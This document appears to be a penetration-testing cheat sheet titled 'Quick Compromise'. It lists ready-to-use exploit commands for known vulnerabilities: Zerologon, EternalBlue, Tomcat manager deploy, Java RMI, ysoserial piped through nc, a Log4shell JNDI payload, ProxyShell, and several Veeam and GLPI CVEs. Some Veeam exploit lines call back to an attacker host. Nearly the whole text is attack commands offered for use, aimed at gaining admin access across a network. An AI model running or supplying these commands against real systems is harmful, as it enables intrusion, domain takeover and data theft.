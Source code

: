 # Quick Compromise

## Zerologon (unsafe) CVE-2020-1472 @CVE@ >>> Domain admin
- `zerologon-scan '<dc_netbios_name>' '<ip>'`
- `cve-2020-1472-exploit.py <MACHINE_BIOS_NAME> <ip>`

## Eternal Blue MS17-010 @CVE@ >>> Admin || Low access
- `msf> exploit/windows/smb/ms17_010_eternalblue # SMBv1 only`

## Tomcat/Jboss Manager >>> Admin || Low access
- `msf> auxiliary/scanner/http/tomcat_enum`
- `msf> exploit/multi/http/tomcat_mgr_deploy`

## Java RMI >>> Admin || Low access
- `msf> use exploit/multi/misc/java_rmi_server`

## Java Serialiszed port >>> Admin || Low access
- `ysoserial.jar <gadget> '<cmd>' |nc <ip> <port>`

## Log4shell >>> Admin || Low access
- ${jndi:ldap://<ip>:<port>/o=reference}

## Database >>> Admin || Low access
- `msf> use auxiliary/admin/mssql/mssql_enum_sql_logins`

## Exchange >>> Admin
- Proxyshell @CVE@
  - `proxyshell_rce.py -u https://<exchange> -e administrator@<domain>`

## Veeam >>> User Account || Low access || Admin
- CVE-2023-27532 (creds - Veeam backup) @CVE@
  - `VeeamHax.exe --target <veeam_server>`
  - `CVE-2023-27532 net.tcp:/<target>:<port>/`
- CVE-2024-29849 (auth bypass - Veeam Backup Enterprise Manager) @CVE@
  - `CVE-2024-29849.py --target https://<veeam_ip>:<veeam_port>/ --callback-server <attacker_ip>:<port>`
- CVE-2024-29855 (auth bypass - Veeam Recovery Orchestrator) @CVE@
  - `CVE-2024-29855.py  --start_time <start_time_epoch> --end_time <end_time_epoch> --username <user>@<domain> --target https://<veeam_ip>:<veeam_port>/`
- CVE-2024-40711 (unserialize - Veeam backup) @CVE@
  - `CVE-2024-40711.exe -f binaryformatter -g Veeam -c http://<attacker_ip>:8000/trigger --targetveeam <veeam_ip>`

## GLPI >>> Admin || Low access
- CVE-2022-35914 @CVE@
  - /vendor/htmlawed/htmlawed/htmLawedTest.php
- CVE_2023_41320 @CVE@
  - `cve_2023_41320.py -u <user> -p <password> -t <ip>`

## Weak websites / services
- nuclei
  - `nuclei -target <ip_range>`
- nessus